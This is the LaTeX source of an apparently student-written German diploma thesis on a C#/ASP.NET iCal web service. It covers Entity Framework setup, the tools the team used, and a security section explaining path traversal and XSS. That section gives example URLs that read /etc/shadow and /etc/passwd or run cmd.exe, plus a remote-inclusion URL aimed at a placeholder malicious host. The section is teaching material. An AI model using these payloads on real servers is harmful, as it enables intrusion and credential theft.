Im nächsten Fenster nun  ''EF Designer aus Datenbank'' auswählen und ''Weiter''. Wie in Abbildung \ref{fig:parsef05} gezeigt.
\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{Parser_EFUse05}
    \caption{EF Designer aus Datenbank}
    \label{fig:parsef05}
\end{figure} 
Wie in Abbildung \ref{fig:parsef06} wird hier zunächst die Verbindung ausgewählt. In diesem Fall ist ein lokales Datenbankfile vorhanden, daher wird dieses per DropDownMenü ausgewählt und auf ''Weiter'' geklickt. 
\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{Parser_EFUse06}
    \caption{EF Datenverbindung}
    \label{fig:parsef06}
\end{figure} 
Wie in Abbildung \ref{fig:parsef07}, alle Tabellen auswählen und auf ''Fertig stellen'' klicken. 
\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{Parser_EFUse07}
    \caption{EF Datenbankobjekte auswählen}
    \label{fig:parsef07}
\end{figure} 
Falls nach Beendung dieses Schrittes eine Sicherheitswarnung sichtbar wird, muss auf ''Ok'' geklickt werden um die Erstellung fortzusetzen. \\ \\
\textbf{Endresultat:} Das Entity Framework hat die Tabellen im ''Models'' Ordner erstellt. Es sollten anschließend alle Klassen automatisch übersichtlich dargestellt werden. Dies sieht in etwa wie in folgender Bildschirmaufnahme \ref{fig:parsef09} aus:
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{Parser_EFUse09}
    \caption{EF Klassendiagramm}
    \label{fig:parsef09}
\end{figure} 
Im Solutionsexplorer der Visual Studio Entwicklungsumgebung sollten alle Models sichtbar sein. Dies sieht nach erfolgreicher Anwendung wie in Abbildung \ref{fig:parsef10} aus. 
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\textwidth]{Parser_EFUse10}
    \caption{EF Solutionsexplorer}
    \label{fig:parsef10}
\end{figure} 
%\subsection{Source-Code}
%\label{ef-sourcecode}
%Hier kommt die Source-Code Erklärung des Parsers hin

%SOURCE CODE VOM iCalContext
%	 public virtual DbSet<ActionTable> ActionTable { get; set; }
%    public virtual DbSet<Alarm> Alarm { get; set; }
%    public virtual DbSet<Attendance> Attendance { get; set; }
%    public virtual DbSet<Attendee> Attendee { get; set; }
%    public virtual DbSet<AttendeeAlarm> AttendeeAlarm { get; set; }
%    public virtual DbSet<Calendar> Calendar { get; set; }
%    public virtual DbSet<CalendarClass> CalendarClass { get; set; }
%    public virtual DbSet<CalendarEntry> CalendarEntry { get; set; }
%    public virtual DbSet<EventTable> EventTable { get; set; }
%    public virtual DbSet<Frequency> Frequency { get; set; }
%    public virtual DbSet<Organizer> Organizer { get; set; }
%    public virtual DbSet<Partstat> Partstat { get; set; }
%    public virtual DbSet<RoleTable> RoleTable { get; set; }
%    public virtual DbSet<Rrule> Rrule { get; set; }
%    public virtual DbSet<StatusTable> StatusTable { get; set; }
%    public virtual DbSet<TimeZone> TimeZone { get; set; }
%    public virtual DbSet<Todo> Todo { get; set; }
%    public virtual DbSet<TriggerTable> TriggerTable { get; set; }
%    public virtual DbSet<UserHasCalendar> UserHasCalendar { get; set; }
%    public virtual DbSet<UserTable> UserTable { get; set; }

%	protected override void OnModelCreating(ModelBuilder modelBuilder)
%    {
%      modelBuilder.Entity<ActionTable>(entity =>
%      {
%        entity.HasKey(e => e.ActionId);
%
%        entity.Property(e => e.ActionId).ValueGeneratedNever();
%
%        entity.Property(e => e.ActionName)
%                  .IsRequired()
%                  .HasMaxLength(50);
%      });

	\renewcommand{\theauthor}{Dario Wagner}
\chapter{Technologien}
\label{sec:Technologien}
\section{Allgemeines}
\label{sec:TechnologieAllgemeines}
Die, während der Diplomarbeit, verwendeten Technologien werden anschließend, unter entsprechender Überschrift, beschrieben, wobei auf die wichtigsten, oder auch meist benutzten, genauer eingegangen wird, in Form einer Installation und einer erweiterten Beschreibung. Zudem werden auch alle Technologien beschrieben welche sich nicht bis zum Ende der Arbeit durchsetzen konnten und während der Arbeit auf eine andere gewechselt wurde oder diese überhaupt nicht mehr verwendet wurde. Dies wird jedoch im Beschreibungstext kenntlich gemacht.
\section{Programmierung}
\label{sec:TechnologieProgrammierung}
\subsection{C\#}
\label{sec:CSharp}
Der praktische Teil der Diplomarbeit wurde mithilfe der Objekt-Orientierten Programmiersprache C\# entwickelt, da die Firma Intact GmbH, der Auftraggeber der Diplomarbeit, in der C\#/.NET-Entwicklung tätig ist. \\ \break
C\# wurde im Jahr 2001 von Microsoft speziell für die .NET Umgebung veröffentlicht und ist daher eine junge Programmiersprache. C\# hat mehrere Anwendungsbereiche unter anderem kann man Desktopanwendungen, XML Web services, Datenbankanwendungen und vieles mehr entwickeln. \\ \break
Die ''geschwungene Klammer''-Syntax von C\# ist sehr ähnlich zu Java, C oder C++. Falls man eine dieser Programmiersprachen beherrscht ist es einfach in kurzer Zeit zu lernen wie man in C\# programmiert. Die C\#-Syntax ist so aufgebaut, dass sie der C++-Syntax sehr ähnelt aber sie in vielen Bereichen vereinfacht und neue Funktionen hinzufügt. Anders als Java ist C\# nicht Betriebssystem unabhängig.
\cite{TechnologieCSharpErklaerung} 

\subsection{Visual Studio 17 Community}
\label{sec:VisualStudio17Community}
Visual Studio ist eine Entwicklungsumgebung, für verschiedenste Programmiersprachen, der Firma Microsoft. Die Version 15 (2017) ist die aktuellste Version und bietet neue Funktionen und Verbesserungen. Unter anderem die voll umfängliche Unterstützung der ASP.NET Core und .NET Core Entwicklung. Die aktuelle Version unterstützt folgende Sprachen:
\begin{itemize}
\item Visual Basic .NET
\item C
\item C++
\item C\#
\item F\#
\item Typescript
\item Python
\item HTML
\item JavaScript
\item CSS
\end{itemize}

Da der Hauptteil der Diplomarbeit in der Objekt Orientierten Programmiersprache C\# geschrieben wurde, hat das Entwicklungsteam Visual Studio 2017 Community verwendet. Hierbei war es wichtig, dass jedes Mitglied der Diplomarbeitsgruppe die selbe "Jahres-Version", in diesem Fall 2017, verwendet, da es zwischen den Versionen kleine Unterscheide, welche zu einem Problem führen könnten, gibt. Ein gravierender Unterschied wäre die Syntax eines Propertys zwischen Version 2013 und 2017. 

\begin{lstlisting}[caption=Syntax Unterschied: Property , label=lst:test]
// Visual Studio 2013 Code
  private string m_Beispiel;
  public string Beispiel
  {
      get { return m_Beispiel; }
      set { m_Beispiel = value; }
  }

// Visual Studio 2017 Code
  private string m_Beispiel;
  public string Beispiel
  {
      get => m_Beispiel;
      set => m_Beispiel = value;
  }
\end{lstlisting}

\subsection{.NET Framework 4.6}
\label{sec:.NETFramework4.6}
Am Anfang der Diplomarbeit wurde mit der Firma im Laufe eines Meetings festgelegt, dass bei der Entwicklung des Webservices .net Framework 4.6 verwendet werden soll um die Kompatibilät mit ihren .net Projekten zu garantieren.

Das .NET Framework ist ein Software Entwicklungs-Framework der Firma Microsoft, um Software zu entwicklen, installieren und auszuführen auf Windows basierenden Systemen. 
Aktuell auswählbare Versionen in Visual Studio 2017:\\ 

\centering 
\includegraphics{Technologien_dotNetVersions}

%\justifying
\subsection {asp.net}
\label{sec:asp.net}
Da das Ziel der Diplomarbeit ein Webservice unter C\# ist, wurde ASP.NET verwendet. ASP.NET ist Teil des .net Framework, mit ihm lassen sich Webservices oder auch Webanwendungen einfach entwickeln. ASP.NET kommt bei 11.8\% aller aktiven Webseiten zum Einsatz und befindet sich deshalb auf dem 2ten Platz nach der Programmiersprache PHP. 
\url {https://w3techs.com/technologies/overview/programming_language/all} 
% DAS DER LINK SO DRIN IS IS NUR VORÜBERGEHEND DAMIT I MA DIE SEITE "MERK"
\\
Im Anschluss wird durch Screenshots erläutert wie ein ASP.NET Projekt in Visual Studio 2017 erstellt wird.

\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Technologien_aspNetTutorial01}
    \caption{ASP.NET Projekt erstellen}
    \label{fig:aspNetTut01}
\end{figure}
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Technologien_aspNetTutorial02}
    \caption{ASP.NET Webanwendung auswählen}
    \label{fig:aspNetTut02}
\end{figure}
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Technologien_aspNetTutorial03}
    \caption{ASP.NET Vorlage auswählen}
    \label{fig:aspNetTut03}
\end{figure}
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Technologien_aspNetTutorial04}
    \caption{ASP.NET Projekt Resultat}
    \label{fig:aspNetTut04}
\end{figure}

\subsection {MSSQL}
\label{sec:MSSQL}
MSSQL ist KEIN Teil der finalen Diplomarbeit und wurde nur zu Testzwecken verwendet. Im Laufe der Entwicklung wurde von Teammitglied Matthias Franz und Marcel Stering ein Raspberry PI als Datenbank aufgesetzt um einige Tests durchzuführen. Dies wurde mit Microsoft SQL Server verwirklicht. 
\subsection {Microsoft SQL Server management Studios}
\label{sec:VisualStudio17Community}
Bei der Microsoft SQL Server entwicklung kam Microsoft SQL Server management Studios zum Einsatz, die Aufgabe des Management Studios war es den Server zu konfigurieren und zu verwalten. 
\subsection {Entity Framework}
\label{sec:VisualStudio17Community}
Das Entity Framework ist ein Großteil des Projektparts "Parser" gewesen. Das Entity Framework wird angewandt um den Zugriff auf die Datenbank zu erleichtern. Es dient zur objektrationalen Abbildung auf .NET Objektstrukturen. Auf die Funktionsweise des EFs wird im Parser genauer eingegangen.

\subsection {iCal}
\label{sec:VisualStudio17Community}
iCal ist das Format in dem ein Kalender gespeichert wird. Das Format wird unter einer eigenen Überschrift im Laufe der schriftlichen Arbeit genauer erklärt. 
Ein Beispiel für den Aufbau des iCal-Formats sieht wie folgt aus: 
\begin{flushleft}
BEGIN:VCALENDAR \break
   PRODID:-//ACME/DesktopCalendar//EN \break
   METHOD:REQUEST \break
   VERSION:2.0 \break
   BEGIN:VEVENT \break
   ORGANIZER:mailto:sman@netscape.com \break
   ATTENDEE;ROLE=CHAIR;ATTSTAT=ACCEPTED:mailto:sman@netscape.com \break
   ATTENDEE;RSVP=YES:mailto:stevesil@microsoft.com \break
   DTSTAMP:19970611T190000Z \break
   DTSTART:19970701T210000Z \break
   DTEND:19970701T230000Z \break
   SUMMARY:Phone Conference \break
   DESCRIPTION:Please review the attached document. \break
   UID:calsvr.example.com-873970198738777 \break
   ATTACH:ftp://ftp.bar.com/pub/docs/foo.doc \break
   STATUS:CONFIRMED \break
   END:VEVENT
\end{flushleft}
\cite{TechnologieiCalExample}
% WIRD VERÄNDERT WEIL DES MOMENTAN 1 ZU 1 WIKIPEDIA IS
%\justifying
\subsection {ReSharper}
\label{sec:VisualStudio17Community}
ReSharper ist eine von JetBrains produzierte Erweiterung für Visual Studio, welche das Entwickeln im .NET Bereich erleichtert. Die tschechische Firma JetBrains ist unter anderem Herausgeber von PyCharm, IntelliJ IDEA,  CLion und vielen weiteren hilfreichen Entwicklungs-Tools.

\subsubsection{Resharper Installation}
\label{sec:ResharperInstallation}
1. ReSharper auf der JetBrains Seite unter folgendem Link herunterladen: \break \url {https://www.jetbrains.com/resharper/download/} \\
2. Nach Download, die .exe Datei ausführen \\
3. Installierte Visual Studio Version auswählen, License Agreement akzeptieren, anschließend bei gewolltem Paket auf "Install" klicken und auf "Next". 
Wenn man nun auf "Next" geklickt hat werden alle zu installierenden Pakete nochmal angezeigt. Falls die Auswahl passt, auf "Install" klicken. \\
4. Wenn die Installation abgeschlossen ist Fenster schließen. \\
5. Um sicherzugehen, dass die Installation erfolgt ist, Visual Studio starten. Hier sollte nun ein Fenster aufploppen um das Shortcut Sheme auszuwählen.
Wählt man nun eines der Möglichkeiten aus und klickt sich durch Agreements sollte anschließend eine License Information zu sehen sein. Hier beim Paket auf ''Start Evaluation'' klicken und anschließend auf ''OK'' drücken und ReShaper ist funktionsfähig und läuft.

\subsection {PostMan}
\label{sec:PostMan}
PostMan wird verwendet um API Tests durchzuführen. Die Software bietet eine sehr übersichtliche Benutzeroberfläche und ermöglicht es dem Benutzer einfach HTTP Requests zu generieren und erspart dem Benutzer große Mengen an Code zu schreiben.\break
\textcite{TechnologiePostman} \\ \break
Man kann zum Beispiel normale GET-Requests senden, bei der Response kann man unter anderem angeben wie sie angezeigt werden soll. Auf der linken Seite sieht man auch eine zeitliche Protokollierung wann welche Anfragen gesendet wurden.

% HTTP und API müssen erklärt werden
\subsection{Kommunikation}
\label{sec:Kommunikation}
\subsection {Discord}
\label{sec:Discord}
Um im Laufe des praktischen Teils der Diplomarbeit die Übersicht zu behalten und alles zu organisieren wurde Discord verwendet. Discord hat viele Funktionen welche die Kommunikation im Team erleichtern. Discord bietet dem Benutzer an einen oder mehrere gratis Server zu erstellen. Ein Server kann aus Text und Sprachchannels bestehen. In einem Textchannel können festgelegte Personen schreiben und in einem Sprachchannel über Mikrofon miteinander reden. Falls wir also Teamintern etwas zu besprechen hatten oder falls Probleme auftraten die wir selbst lösen konnten bat Discord die perfekte Kommunikationsfläche. 

Da wir als Gruppe mehrere Projekte haben haben wir einen "Projektserver". In diesem Projektserver haben wir einen Text und Sprach Channel für die Diplomarbeit. Im Text Channel werden kleine Probleme, die schnell geklärt werden können, besprochen und Files ausgetauscht. Im Sprach Channel werden gröbere Probleme besprochen oder wenn nötig Planänderungen. 

%Installation und Server erstellung

\subsection {Telegram}
\label{sec:Telegram}
Telegram wurde nicht regelmäßig verwendet, es war eher eine Backup Chat-Application. 

\subsection{File Sharing}
\label{sec:FileSharing}
\subsection {TFS}
\label{sec:TFS}
Der Microsoft Team Foundation Server ist die verwendete Code-Sharing Technologie. Da der Auftraggeber, die Firma Intact GmbH oder Intact Systems, mit dieser Technologie arbeitet haben wir bei einem der ersten Treffer TFS für Code Sharing gewählt. Wir hatten einige Probleme mit dem TFS wodurch oft einzelne Teile des Projekts entwickelt wurden und dann in ein Projekt zusammengeführt wurden. Die Probleme waren unter anderem, dass die Firma eine Zeit lang gebraucht hat um den Server zur Verfügung zustellen aber auch, dass das Verbinden mit dem Server manchmal nicht geklappt hat. 

%Anleitung wie man einen TFS benutzt

\subsection {Discord}
\label{sec:Discord}
Wie bereits bei den Technologien erwähnt haben wir auf einem Discord Server einen Text Channel eingerichtet. Dieser eignet sich nicht nur um miteinander zu schreiben sondern kann auch dafür genutzt werden mit anderen Benutzer Files zu teilen. 
\subsection {Google Drive}
\label{sec:GoogleDrive}
Google Drive ist ein von Google bereitgestellter Cloud Service um Dokumente freizugeben, Online zu bearbeiten und zu speichern.

Mithilfe von Google Drive wurde an Präsentationen und Projekten gearbeitet. Durch Google Docs und Google Präsentation fällt es leicht mit mehreren Personen gleichzeitig an einem Dokument zu arbeiten. Durch Google Drive wurden Dokumente wie die IVM Matrix, den Projektstrukturplan, die Meetings und die SCRUM Sprints erstellt und an alle Mitglieder geteilt. 
\subsection{Organisation}
\label{sec:Organisation}
\subsection {Trello}
\label{sec:Trello}
Trello ist eine web-basiert Software die das managen von Projekten vereinfacht. Trello wurde benutzt um den management Prozess Scrum erfolgreich durchzuführen. Trello bietet eine gute Übersicht über den Status des Projekts, da es Aufgaben in Form von kleinen Karten in einer Liste anzeigt. Diese Aufgaben kann man mit einer Verantwortlichen Person inkl. Frist versehen. So wird dem Scrummaster die Möglichkeit geboten 3 Listen zu erstellen: ''To Do'', ''in Arbeit'' und ''Fertig''. Je nachdem in welchem Status sich die Aufgabe befindet wird sie dementsprechend zugeteilt.

\subsection{Schriftliche Arbeit}
\label{sec:TechSchriftlicheArbeit}
\subsection {LaTeX}
\label{sec:LaTeX}
LaTeX ist ein System mitdessen Hilfe man ein Dokument erstellen kann. Die Formatierung dieses Dokuments läuft anders als bei Word über Befehle. LaTeX läuft über das Textsatzsystem TeX. TeX hat seine eigene Sprache um Formatierungen von Text oder Grafiken sehr präzise und individuell einzustellen. 
\paragraph{Warum LaTeX?}
\label{sec:WarumLaTeX}
Warum wurde LaTeX verwendet und nicht Word oder sonstige Programme? Sobald bei einem Dokument vorgeschriebene Formatierung einzuhalten ist oder es einen großen Umfang haben wird, lohnt es sich LaTeX zu verwenden. Mit LaTeX werden Formatierung per Befehl definiert, man kann am Anfang des Dokuments gewisse Vorgaben definieren so kann man Standardmäßige Einstellungen vornehmen welche Formatierungsfehler beinahe komplett ausschließen. Nicht nur die Formatierung wird übersichtlicher und erleichtert, auch die Aufteilung des Projekts wird simpler. Es ist möglich ein Dokument als ''Haupt''-Dokument anzulegen und in diesem weitere einzelne Dokumente einzubinden. So kann man verschieden Themenbereiche in verschiedene Dokumente aufteilen. \cite{TechnologieLaTeX} 
\pagebreak
	%
\section{Webseite}
\label{sec:Webseite}
\subsection{Security}
\label{sec:Security}
In diesem Abschnitt beschäftigen wir uns mit der Security der Webseite.
Wir behandeln wie man das sichere einloggen in eine Webseite gewähren kann, 
wie man sich vor XSS/CSRF schützen kann, wie man verhindert das eine SQL Injection
möglich ist und wie man Passwörter speichert. Dazu werden wir einige Code Beispiele anführen.

\subsubsection{Login Handling}
\label{sec:Login}
\subsubsection{Two-Factor-Auth}
\label{sec:tfa}
\subsubsection{Path-Traversal}
\label{sec:Path-Traversal}
Als Path-Traversal wird eine Security Lüge bezeichnet die es einem Angreifer, durch Manipulation des URLs auf Daten zuzugreifen, auf die er nicht zugriffen können sollte. 
\subsubsection{Grundprinzip}
Man sollte nicht auf Dateien, die sich außerhalb vom Web-Directory befinden, von einem Webserver zugreifen können. Beim Path-Traversal versucht man als Angreifer durch beifügen von Pfadangaben das Verzeichnis zum Root-Verzeichnis zu wechseln. 
//
Man benutzt ../ als Parameter zum Wechseln des Verzeichnisses.
\subsubsection{Beispiele}
\begin{enumerate}
\item Windows
\begin{enumerate}
\item \url{http://www.example.com/index.foo?item=../../../Config.sys}
\item \url{http://www.example.com/index.foo?item=../../../Windows/System32/cmd.exe?/C+dir+C:}
\end{enumerate}
\item Linux
\begin{enumerate}
\item \url{http://some_site.com.br/../../../../etc/shadow }
\item \url{http://some_site.com.br/get-files?file=/etc/passwd}
\end{enumerate}
\end{enumerate}
Anhand dieser Beispiele kann man sehen, das einem diese Schwäche ermöglicht lokale Passwörter auszulesen und Windows Configs.  
\\ \\
Unter Linux ist diese Schwäche kritischer da man hier auf die komplette Festplatte Zugriff bekommt. In Windows kann man sich nur im lokalen Directory bewegen, wo sich die Website befindet.
\\ \\
Eine weitere Anwendungsmöglichkeit ist es auf seine eigene bösartige Seite zu verweisen und über diese code einzufügen mit dem man sich noch mehr Möglichkeiten verschafft. \\ \\
\url{http://some_site.com.br/some-page?page=http://BoeseSeite.com.br/other-page.htm/malicius-code.php}
\subsubsection{Protection Path-Traversal}
\subsubsection{XSS Protection}
\label{sec:xss}
\subsubsection{Allgemeines über XSS}
XSS steht für Cross-Site-Scripting und ist eine Security schwäche, welche es ausnutzt das eine Webadmin nicht davon ausgeht das eine gewisse Eingabe getätigt wird. Meist nutzt ein Hacker diese Schwäche um einen bösartigen Code auszuführen, zu Beispielen werden wir später noch kommen. Trotz dem hohen Bekanntheitsgrad von XSS und findet man Cross-Site-Scripting immer noch aus der OWASP Top 10, welche die häufigsten Security Vulnerabilities Jahr für Jahr auflistet. Bei dem ausnutzen von XSS greift man sein 'Opfer' nicht direkt an, sondern man nutzt diese Schwachstelle, um bspw. ein bösartiges Skript zu platzieren, welches dann von einem nichts ahnenden User aufgerufen wird. 
\subsubsection{XSS Targets:}
\begin{enumerate}
\item Javascript (wobei Javascript das beliebteste ist) 
\item VBScript 
\item ActiveX
\item Flash
\end{enumerate}
\subsubsection{Warum ist Javascript so beliebt?}
Der Grund hierfür ist das Javascript quasi eine fundamentale Einheit einer Webseite ist. Man wird kaum eine Webseite finden, welche kein Javascript verwendet.
\subsubsection{Beliebte Angriffsvektoren}
\begin{enumerate}
\item Session Hijacking
\item Website-Defacements 
\item Phishing
\end{enumerate}
\subsubsection{Session Hijacking}
Beim Session Hijacking werden, wie es einem der Name schon verrät, Sessions von Webseiten übernommen. Meist bemerkt ein User gar nicht das seine Session von einem Angreifer übernommen worden ist. Das Hauptziel ist dabei das überwachen von Aktivitäten bzw. Datendiebstahl. Sehr problematisch wird es, wenn eine Admin Session zugänglich wird und der Angreifer so auf einen Admin Account zugreifen kann. Bei so einem Vorfall hat der Angreifer dann alle Rechte und kann sich so zusagen austoben, wie er will. Und hier reicht schon eine kleine XSS Vulnerability aus um dies zu bewerkstelligen. 
\subsubsection{Website-Defacements}
Website-Defacements hat etwas von digitalem Graffiti. Hier wird XSS genutzt um sich den Zugriff auf die Webseite zu verschaffen und sie dann optisch zu verändern. 
\subsubsection{Phishing}
Im Prinzip ist Phishing die Intention mit Fake Webseiten oder Emails an vertrauliche Daten eines Users zu kommen. Ein Beispiel wäre mit einem gefälschten Facebook Login an die Login Daten eines Benutzers zu kommen. 
\\ \\Doch wie hängt das mit XSS zusammen?\\ \\Bei einer Url hat man sehr oft eine Abfragezeichenfolge. Diese werden benutzt um beliebige Werte zu übergeben. Beispielweise würde die Url 
